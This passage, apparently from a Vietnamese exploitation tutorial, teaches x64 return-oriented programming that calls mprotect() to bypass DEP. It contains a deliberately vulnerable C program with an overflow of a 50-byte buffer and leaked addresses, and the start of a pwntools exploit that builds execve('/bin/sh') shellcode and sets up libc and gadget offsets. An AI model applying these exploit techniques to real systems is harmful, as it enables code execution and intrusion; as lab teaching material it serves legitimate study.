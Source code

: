 còn với x64, thì có lẽ kĩ thuật này khá là hữu dụng để chúng ta có thể bypass được DEP
source:
```c
//gcc -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
   
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 256);
}
  
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

- cách thức để rop:
  - thay đổi privilieges nơi chứa shellcode thông qua mprotect()
    - mprotect() thay đổi access protection cho memory page của process hiện tại đang được gọi của range địa chỉ [addr, addr + len - 1]
    - giá trị của addr phải align với page boundary
      - size của page là 4096
    - ex
      - không đúng: 0x7ffd0e0a4**470**
      - đúng: 0x7ffd0e0a4**000**

thể hiện thành code c:
```c
mprotect(address of shellcode,0x2000,0x7)
```
### Preparation

- libc
  - mprotect
- gadget
  - pop rdi, ret
  - pop rsi, ret 
  - pop rdx, ret 

tương tự như trên, ta dùng rp++ để tìm gadget trên libc được share với binary


source py:
```py
from pwn import *

  
context.update(arch='amd64',os='linux')

# shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode = asm(shellcraft.execve('/bin/sh\x00',0,0))
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
libcbase_printf_offset = libc.symbols['printf']
libcbase_mprotect_offset = libc.symbols['mprotect']
 
pop_rdi_ret = 0x004007b3
pop_rdx_rsi_ret_offset = 0x00115189
  
r = process('./rop64')
```